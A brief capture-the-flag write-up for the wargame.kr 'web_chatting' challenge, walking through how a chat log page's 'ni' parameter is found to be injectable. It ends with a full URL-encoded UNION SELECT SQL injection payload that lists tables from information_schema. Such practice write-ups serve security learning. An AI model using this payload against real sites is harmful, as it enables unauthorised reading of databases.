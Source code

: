 # web_chatting with url sqli

1. input the ID
2. input the example chatting log
3. check the request at Network

chatlog.php?data={something} is sending a chatting log

chatlog.php?t=1&ni=anything allows you to see more than anything

#is comment out

4. you can try url sqli!!
example : http://wargame.kr:8080/web_chatting/chatview.php?t=1&ni=56171%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20limit%2056171,100--

